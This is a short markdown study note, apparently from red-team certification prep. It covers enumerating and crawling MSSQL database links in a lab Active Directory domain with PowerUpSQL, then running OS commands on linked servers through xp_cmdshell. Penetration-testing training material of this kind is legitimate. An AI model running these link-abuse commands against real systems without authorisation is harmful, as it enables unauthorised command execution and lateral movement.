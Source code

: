 # Methodology
>1. Enumerate links to remote servers.
>2. Abuse links to get foothold on remote servers.

---
# Powershell
>**ℹ️ Info:**
>
> Remember to follow the [PowerShell scripts methodology](Notes/Certifications/CRTE/00%20-%20Miscellaneous/01-%20Methodology.md#PowerShell%20Scripts).

## PowerUpSQL
https://github.com/NetSPI/PowerUpSQL/blob/master/PowerUpSQL.psd1

**Enumerate MSSQL links:**
```powershell
Get-SQLServerLink -Instance us-mssql.us.techcorp.local -Verbose
```

**Crawl MSSQL links:**
```powershell
Get-SQLServerLinkCrawl -Instance us-mssql -Verbose
```

**Execute command where xp_cmdshell enabled:**
```powershell
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''whoami'''
```